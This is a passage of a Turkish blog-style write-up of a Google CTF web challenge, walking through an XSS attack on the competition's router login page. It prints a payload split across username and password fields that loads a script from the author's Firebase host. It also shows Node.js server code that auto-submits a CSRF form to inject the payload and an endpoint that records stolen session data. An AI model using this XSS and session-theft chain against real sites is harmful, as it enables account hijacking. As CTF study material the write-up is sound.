 ```
Wrong credentials: 
```

Yaşasın! Scriptimizi başarıyla çalıştırdık... mı acaba?

Madem çalıştırdık, neden bir `alert` gelmedi? Hemen **Chrome Geliştirici Konsolunu** açıyorum ve **Network** sekmesini inceliyorum. 

![](/assets/google-ctf-macerasi-2/10.webp)

İsteğimizin **HTTP** portundan gönderilmesi sonucu **Mixed Content** hatasına yakalanmışız.

### Mixed Content hatasının sebebi
Sayfa **HTTPS**, diğer kaynaklar **HTTP** bağlantısı üzerinden yüklenirse; güvenli olan **SSL** sertifikası sebebiyle tarayıcı, güvensiz olan **HTTP** protokolünden yüklenmeye çalışan verilerin bağlantısını kesiyor.

İsteğimizin **HTTPS** portundan yapılması gerekiyor.
Bunun için hemen bir **FireBase** projesi açıp _hosting_ ayarladım.
```
Kullanıcı adı: <script src="https:
Şifre: xavactf.firebaseapp.com/hek.js"></script>
```

Ve istenen mesaj:
![](/assets/google-ctf-macerasi-2/11.webp)

Bundan sonrası çorap söküğü gibi gelecek. Bu **JavaScript** ile dökümana bir img elementi koyduk mu _session_ bilgileri eilimizde.

Bunun için **FireBase** üzerinde **NodeJS** kullanıyorum. Google botunu *hack*lemek için **Google** servisi kullanmak gibisi yok.

Sunucu tarafında çalışan `index.js` içeriği:
```JavaScript
const functions = require('firebase-functions');
const admin = require('firebase-admin');
const express = require('express');
const app = express();
admin.initializeApp({databaseURL: 'https://xavactf.firebaseio.com',});

app.get('/cats', (req,res) => { 
    res.send('<form action="https://router-ui.web.ctfcompetition.com/login" method="post"><input type="text" name="username" value="&#x3C;script src=&#x22;"><input type="password" name="password" value="xavactf.firebaseapp.com/hack.js&#x22;&#x3E;&#x3C;/script&#x3E;"></form><script>document.forms[0].submit();</script>');
});

app.get('/session', (req,res) => {
    admin.database().ref('/sessions').child(Date.now()).set(req.query);
    res.send("Page could not be loaded");
});

exports.app = functions.https.onRequest(app);
```